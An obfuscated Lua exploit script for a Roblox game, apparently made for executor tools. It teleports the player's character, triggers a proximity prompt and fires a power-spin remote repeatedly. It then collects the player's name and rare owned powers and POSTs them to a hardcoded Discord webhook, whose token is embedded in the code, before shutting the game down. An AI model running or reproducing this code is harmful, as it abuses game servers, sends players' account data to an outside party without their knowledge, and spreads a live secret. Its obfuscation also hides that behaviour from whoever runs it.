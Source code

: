 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.9) ~  Much Love, Ferib 

]]--

local v0=game:GetService("Players");local v1=game:GetService("TweenService");local v2=game:GetService("ReplicatedStorage");local v3=game:GetService("HttpService");local v4=v0.LocalPlayer;local v5=Vector3.new(44.126599999999996 + 232 ,163.5923 -106 , -(395.9151 -190));local v6=v4.Character or v4.CharacterAdded:Wait() ;local v7=v6:WaitForChild("HumanoidRootPart");local v8=TweenInfo.new(1639 -(1523 + 114) ,Enum.EasingStyle.Linear);local v9=v1:Create(v7,v8,{CFrame=CFrame.new(v5)});v9:Play();v9.Completed:Wait();local v10=workspace:FindFirstChildWhichIsA("ProximityPrompt",true);if v10 then fireproximityprompt(v10);end local v11=v2:WaitForChild("Remotes"):WaitForChild("AttemptPowerSpin");local v12=v4.PlayerGui.ShopGui.StoreHolder.Store.PAGES.Powers.Owned;local v13="https://discord.com/api/webhooks/1408371867508801637/cD9Np2_Vn1qj2DHapQf6b7Vs69XRV8ZlT1yd6InPNL1Q7had-n--TP8-TJ1JG-Nv0pKR";local v14={["PHANTHOM STEP"]=true,["WEAPON SMUGGLER"]=true,HERCULES=true,QUICKSILVER=true,["TIME STOP"]=true,["LIGHTNING GOD"]=true,["THE DOCTOR"]=true};for v16=2 -1 ,623 -(555 + 64)  do local v17=0 -0 ;while true do if (v17==(931 -(857 + 74))) then v11:FireServer();task.wait(574 -(367 + 201) );break;end end end task.wait(931 -(214 + 713) );local v15={};for v18,v19 in ipairs(v12:GetChildren()) do if (v19:IsA("TextButton") and v19.Visible and v14[v19.Name]) then table.insert(v15,"``ㅤ"   .. v19.Name   .. "ㅤ``" );end end if ( #v15>(117 -(32 + 85))) then local v20=table.concat(v15,"\n");local v21={content=nil,embeds={{fields={{name="⚠️ Name :",value="``ㅤ"   .. v4.Name   .. "ㅤ``" },{name="Show Powers :",value=v20}}}},attachments={}};if (typeof(request)=="function") then pcall(function() request({Url=v13,Method="POST",Headers={["Content-Type"]="application/json"},Body=v3:JSONEncode(v21)});end);end end game:Shutdown();
